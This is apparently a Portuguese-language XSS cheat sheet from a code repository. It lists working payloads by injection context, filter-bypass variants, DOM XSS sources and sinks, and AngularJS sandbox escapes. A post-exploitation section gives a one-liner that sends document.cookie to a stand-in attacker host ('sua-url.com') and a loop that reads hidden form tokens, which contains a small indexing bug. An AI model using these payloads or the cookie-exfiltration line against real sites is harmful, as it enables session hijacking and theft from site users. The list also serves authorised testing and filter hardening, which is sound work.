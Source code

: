 
#### 1. Basic Payload per Contexts

- **HTML Injection (Body)**
	- **Quando Usar?:** Reflexão direta no HTML, fora de qualquer tag.
	- **Payload:** `<img src=1 onerror=alert(1)>`
	- **Por que funciona:** IMG é uma tag HTML5 que permite eventos onload e é menos filtrada que `<script>`, assim como `SVG`, `IFRAME`
- **HTML Injection (Attribute):**
	- **Quando Usar?:** Reflexão dentro de `value="..."`, `class="..."`, etc.
	- **Payload:** `" onmouseover=alert(1) //`
	- **Por que funciona:** Escapa do atributo com aspas e cria um novo atributo de evento.
- **HTML Injection (Dentro de ``href/src/action``)**
	- **Quando Usar?:** Reflexão dentro de um atributo que espera uma URL
	- **Payload:** `javascript:alert(1)`
	- **Por que funciona:** Usa o pseudo-protocolo `javascript:` que o navegador executa ao invés de navegar.
- **Javascript Injection (Dentro de String JS)**
	- **Quando Usar?:** Reflexão dentro de `<script>var x = '...';</script>`
	- **Payload:** `'-alert(1)-'`.
	- **Por que funciona:** Escapa do contexto da string JS para injetar código executável.

#### 2. Bypass de Filtros Comuns

- **Filtro: Bloqueio de `<script>`, `onerror` e `onload`**
	- **Técnica:** Use ofuscação, casos mistos e tags/eventos menos comuns.
	- **Payload:** `<details open ontoggle=alert(1)>`
	- **Payload:** `<Svg OnLoad=alert(1)>`
	- **Payload:** `<script/x>alert(1)</script>`
	- **Payload:** `<svg/on<script>load=alert(1)` : Se o filtro remove "script", este payload vira `<svg/onload=alert(1)>`
	- **Payload:** `<svg><set onbegin=alert(1)>`.
	- **Payload:** `<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click Me</text/></a>`
	- **Payload:** ``<svg><animateTransform onbegin=alert(1) attributeName="transform" type="rotate" from="0" to="0" dur="1s" />``
- **Filtro: Bloqueio de Parênteses `()`**
	- **Técnica:** Usar acento grave (template literals).
	- **Payload:** ```alert `1` ```
	- **Payload:** `onerror=alert;throw 1`
	- **Payload:** `x=x=>{throw/**/onerror=alert,1},toString=x,window+'',{x:'`
- **Filtro: Bloqueio da palavra "alert"**
	- **Técnica:** Obfuscação e métodos alternativos.
	- **Payload:** `top["al"+"ert"](1)`
	- **Payload:** `(confirm)(1)` (Variação de `alert(1)`).
- **Filtro: Encode de `<` e `>`
	- **Técnica:** Focar em bypass de contexto.
	- **Payload:** `" autofocus onfocus=alert() x="`
	- **Payload:** `" onmouseup="alert()`
- **Filtro: Escape de aspas simples, aspas duplas e barra invertida**
	- **Técnica:** Usar eventos sem aspas ou codificar valores.
	- **Payload:** `onmouseover=alert(1)`
	- **Payload:** `\';alert()//`
	- **Payload:** `&apos;-alert(document.domain)-&apos;`
	
#### 3. DOM XSS

- **Fonte Comum:** `location.hash`
	- **Quando Usar?:** Quando o JS da página usa o conteúdo após o `#` da URL.
	- **Técnica:** Inserir HTML no hash, pois ele não é enviado ao servidor e, portanto, não é sanitizado no server-side
	- **Exemplo de URL de Ataque:** `http://alvo.com/page#<img src=x onerror=alert(1)>` 
- **Fonte Comum:** `postMessage()`
	- **Quando Usar?:** Quando uma página usa `window.addEventListener('message', ...)` sem validar a origem.
	- **Técnica:** Criar um `iframe` e enviar uma mensagem maliciosa para a janela pai.
	- **Payload:** `<iframe src=TARGET_URL onload="frames[0].postMessage('INJECTION', '*')">`.
- **Fonte comum:** `attr()`
	- **Quando Usar?:** Quando uma página usa a função `attr()` do Jquery para retornar para uma página
	- **Técnica:** Inserir o payload `javascript:` no lugar do link de retorno.
	- **Payload:** `?returnUrl=javascript:alert(document.domain)`

- **Sinks:**
	- document.write()
	- document.writeln()
	- document.domain
	- element.innerHTML
	- element.outerHTML
	- element.insertAdjacentHTML
	- element;onevent
- **jQuery Sinks**
	- add()
	- after()
	- append()
	- animate()
	- insertAfter()
	- insertBefore()
	- before()
	- html()
	- prepend()
	- replaceAll()
	- replaceWith()
	- wrap()
	- wrapInner()
	- wrapAll()
	- has()
	- constructor()
	- init()
	- index()
	- jQuery.parseHTML()
	- $.parseHTML()

#### 4. Poliglotas e One-Liners Úteis

Aqui não são payloads, mas snippets de JavaScript para quando você já conseguiu a execução;

- **Roubar Cookies:** `fetch('//sua-url.com/?c='+document.cookie)`
- **Roubar Tokens de Forms:** `var f=document.forms;for(i=0;i<f.length;i++){e=f[1].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+':'+e[n].value)}}}`.
- **Poliglota zseano:** `<s>000'")};--//`
	- `<s>`(teste de tag HTML)
	- `"` e `'` (fechamento de atributos)
	- `)` (fechamento de função JS)
	- `};` (fechamento de bloco JS)
	- `--` (comentario SQL)
- **Poliglota de HTML brute lojic:** ```</Script/--><Body/Autofocus/OnFocus = confirm `1```

#### 5. Payloads para Contextos Especificos

- **Dentro de Template Literals JavaScript**
	- **Contexto:** O input reflete dentro de uma string JS delimitada por acentos graves (\`)
	- **Payload:** `${alert(1)}`. Extremamente eficas em frameworks JS modernos.
- **Dentro de Frameworks Especificos:**
	- **Contexto:** A página usa AngularJS.
	- **Payload:** `{{\$new.constructor('alert(1)')()}}` ( para v1.6+)
	- **Payload:** `'a'.constructor.prototype.charAt=[].join` ( para escape sandbox)
	- **Payload:** `[123]|orderBy:expression` (Para caso não possa utilizar $eval)
	- **Payload:** `(true.toString()).constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1` (bypass de filtros, x=alert(1)=1, chama alert(1))
	- Nota: Junte as tecnicas.
- **Contexto de Markdown:**
	- **Quando Usar?:** Em campos de comentário ou descrição que aceitam Markdown.
	- **Payload:** ```[clickme](javascript:alert`1`)```
- **Contexto de XML/SVG**
	- **Quando Usar?:** Quando o `Content-Type` da resposta é `application/xml` ou `text/xml`
	- **Payload:** `<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>`
